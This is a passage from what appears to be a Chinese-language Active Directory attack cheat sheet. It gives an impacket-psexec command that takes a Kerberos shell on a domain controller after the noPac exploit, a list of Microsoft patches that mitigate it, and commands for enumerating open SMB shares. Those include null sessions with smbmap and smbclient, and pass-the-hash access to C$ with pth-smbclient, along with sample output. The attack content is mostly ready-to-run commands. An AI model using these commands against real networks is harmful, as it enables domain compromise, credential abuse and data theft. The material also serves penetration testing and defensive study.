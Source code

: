     $ impacket-psexec -k -no-pass 'domain.local/administrator@dc.domain.local'
    ```

**缓解措施**：

* [KB5007247 - Windows Server 2012 R2](https://support.microsoft.com/en-us/topic/2021年11月9日-kb5007247-月度汇总更新-2c3b6017-82f4-4102-b1e2-36f366bf3520)
* [KB5008601 - Windows Server 2016](https://support.microsoft.com/en-us/topic/2021年11月14日-kb5008601-操作系统构建14393-4771-带外更新-c8cd33ce-3d40-4853-bee4-a7cc943582b9)
* [KB5008602 - Windows Server 2019](https://support.microsoft.com/en-us/topic/2021年11月14日-kb5008602-操作系统构建17763-2305-带外更新-8583a8a3-ebed-4829-b285-356fb5aaacd7)
* [KB5007205 - Windows Server 2022](https://support.microsoft.com/en-us/topic/2021年11月9日-kb5007205-操作系统构建20348-350-af102e6f-cc7c-4cd4-8dc2-8b08d73d2b31)
* [KB5008102](https://support.microsoft.com/en-us/topic/kb5008102-AD域安全账户管理器强化更改-cve-2021-42278-5975b463-4c95-45e1-831a-d120004e258e)
* [KB5008380](https://support.microsoft.com/en-us/topic/kb5008380-认证更新-cve-2021-42287-9dafac11-e0d0-4cb8-959a-143bd0201041)

## 开放共享

> 一些共享可以在不需要认证的情况下访问，探索它们以找到一些有价值文件。

* [ShawnDEvans/smbmap - 一个方便的SMB枚举工具](https://github.com/ShawnDEvans/smbmap)

  ```powershell
  smbmap -H 10.10.10.10                # 空会话
  smbmap -H 10.10.10.10 -R             # 递归列出
  smbmap -H 10.10.10.10 -u invaliduser # 访客SMB会话
  smbmap -H 10.10.10.10 -d "DOMAIN.LOCAL" -u "USERNAME" -p "Password123*"
  ```

* [byt3bl33d3r/pth-smbclient 来自path-toolkit](https://github.com/byt3bl33d3r/pth-toolkit)

  ```powershell
  pth-smbclient -U "AD/ADMINISTRATOR%aad3b435b51404eeaad3b435b51404ee:2[...]A" //192.168.10.100/Share
  pth-smbclient -U "AD/ADMINISTRATOR%aad3b435b51404eeaad3b435b51404ee:2[...]A" //192.168.10.100/C$
  ls  # 列出文件
  cd  # 进入文件夹
  get # 下载文件
  put # 替换文件
  ```

* [SecureAuthCorp/smbclient 来自Impacket](https://github.com/SecureAuthCorp/impacket)

  ```powershell
  smbclient -I 10.10.10.100 -L ACTIVE -N -U ""
          Sharename       Type      Comment
          ---------       ----      -------
          ADMIN$          Disk      远程管理
          C$              Disk      默认共享
          IPC$            IPC       远程IPC
          NETLOGON        Disk      登录服务器共享
          Replication     Disk      
          SYSVOL          Disk      登录服务器共享
          Users           Disk
  use Sharename # 选择一个Sharename
  cd Folder     # 进入一个文件夹
  ls            # 列出文件
  ```
